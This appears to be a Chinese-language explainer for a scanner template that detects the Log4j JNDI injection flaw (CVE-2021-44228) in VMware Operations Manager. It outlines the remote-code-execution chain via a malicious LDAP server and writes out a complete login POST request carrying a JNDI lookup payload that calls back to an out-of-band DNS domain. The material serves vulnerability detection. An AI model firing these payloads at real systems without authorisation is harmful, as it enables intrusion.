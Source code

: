 # VMware Operations Manager - Log4j JNDI RCE 漏洞（CVE-2021-44228）探测原理说明

## 1. 漏洞简介

VMware Operations Manager 存在 Apache Log4j JNDI 注入远程代码执行漏洞（CVE-2021-44228）。攻击者可通过构造恶意请求，远程执行任意代码，危害系统安全。

## 2. 影响范围

- 受影响产品：VMware Operations Manager（使用受影响 Log4j 版本）
- 只要日志、参数或配置中存在用户可控内容，均可能被利用

## 3. 漏洞原理

Log4j2 在处理日志消息时支持 JNDI 查找。攻击者可通过注入特殊payload，诱使 Log4j2 访问恶意JNDI服务器（如LDAP），加载并执行远程代码。

## 4. 利用方式与攻击流程

1. 攻击者搭建恶意LDAP服务器，返回恶意Java类。
2. 构造带有JNDI payload的HTTP请求，发送到Operations Manager接口。
3. 日志记录参数时，Log4j2解析payload，触发JNDI查找，访问攻击者LDAP服务器。
4. 恶意Java类被加载并执行，实现RCE。

## 5. 探测原理与流程（yaml 规则详细说明）

该yaml规则利用OAST/DNSLog平台（如Interactsh）进行无害化探测，流程如下：

### 5.1 探测请求的构造

- 发送POST请求到如下接口：
  ```
  POST /ui/login.action HTTP/1.1
  Host: <目标主机>
  Content-Type: application/x-www-form-urlencoded; charset=UTF-8
  X-Requested-With: XMLHttpRequest
  Origin: <BaseURL>
  Referer: <BaseURL>/ui/login.action
  Sec-Fetch-Dest: empty
  Sec-Fetch-Mode: cors
  Sec-Fetch-Site: same-origin

  mainAction=login&userName=${jndi:ldap://${:-<rand1>}${:-<rand2>}.${hostName}.username.<interactsh-url>}&password=admin&authSourceId=localItem&authSourceName=Local%20Users&authSourceType=LOCAL&forceLogin=&timezone=330&languageCode=us
  ```
  - <rand1>、<rand2>为随机数，<interactsh-url>为OAST平台生成的唯一域名。

### 5.2 预期响应与交互

- **HTTP响应内容**：
  - 响应头需包含`Path=/ui`，确认为Operations Manager接口。
- **OAST平台交互**：
  - 若目标存在漏洞，Log4j2解析payload时会向OAST域名发起DNS查询，OAST平台记录该行为。

### 5.3 判定逻辑

- 只有当：
  1. HTTP响应头中包含`Path=/ui`，
  2. OAST平台收到带有对应随机标识的DNS查询，
  3. DNS查询格式与payload匹配，
  才判定目标存在Log4j JNDI RCE漏洞。

- **判定流程伪代码**：
  ```pseudo
  rand1, rand2 = 随机生成
  payload = '${jndi:ldap://${:-{rand1}}${:-{rand2}}.{hostName}.username.<oast-domain>}'
  发送POST /ui/login.action，userName字段为payload
  等待OAST平台回调
  若DNS查询中包含rand1, rand2, hostName，且响应头含Path=/ui：
      判定目标存在漏洞
  ```

- **流程图**：
  ```mermaid
  graph TD
      A[发送带payload的POST请求到/ui/login.action] --> B{响应头含Path=/ui?}
      B -- 否 --> F[非目标, 终止]
      B -- 是 --> C[等待OAST平台DNS回显]
      C --> D{DNS查询中含随机标识?}
      D -- 否 --> F
      D -- 是 --> E[判定目标存在Log4j JNDI RCE漏洞]
  ```

通过上述流程，既保证了探测的准确性，也避免了对目标系统的实际危害。

## 6. 参考链接

- [VMware官方安全公告](https://www.vmware.com/security/advisories/VMSA-2021-0028.html)
- [Log4j 官方安全公告](https://logging.apache.org/log4j/2.x/security.html)
- [CVE-2021-44228 NVD](https://nvd.nist.gov/vuln/detail/CVE-2021-44228) 